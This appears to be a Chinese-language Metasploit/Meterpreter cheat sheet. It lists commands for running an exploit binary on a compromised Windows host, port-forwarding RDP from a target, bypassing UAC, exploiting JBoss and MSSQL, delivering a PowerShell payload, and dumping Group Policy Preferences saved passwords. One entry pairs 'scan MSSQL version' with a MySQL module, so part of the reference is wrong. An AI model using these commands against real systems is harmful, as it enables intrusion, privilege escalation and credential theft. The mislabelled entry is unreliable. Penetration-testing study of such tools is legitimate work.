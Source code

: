 ````bash

`execute -f c:\\windows\temp\exploit.exe`

使用cmd shell创建新通道

`execute -f cmd -c`

端口转发

`portfwd add –l 3389 –p 3389 –r target`

关闭端口转发

`portfwd delete –l 3389 –p 3389 –r target`

Bypass UAC

`use exploit/windows/local/bypassuac`

HTTP目录扫描

`use auxiliary/scanner/http/dir_scanner`

扫描JBOSS漏洞

`use auxiliary/scanner/http/jboss_vulnscan`

扫描MSSQL密码

`use auxiliary/scanner/mssql/mssql_login`

扫描MSSQL版本

`use auxiliary/scanner/mysql/mysql_version`

Oracle登录模块

`use auxiliary/scanner/oracle/oracle_login`

powershell有效负载模块

`use exploit/multi/script/web_delivery`

通过会话上传和运行powershell脚本

`post/windows/manage/powershell/exec_powershell`

部署JBOSS

`use exploit/multi/http/jboss_maindeployer`

MSSQL有效负载

`use exploit/windows/mssql/mssql_payload`

显示当前用户的权限

`run post/windows/gather/win_privs`

抓取GPP保存的密码

`use post/windows/gather/credentials/gpp`

````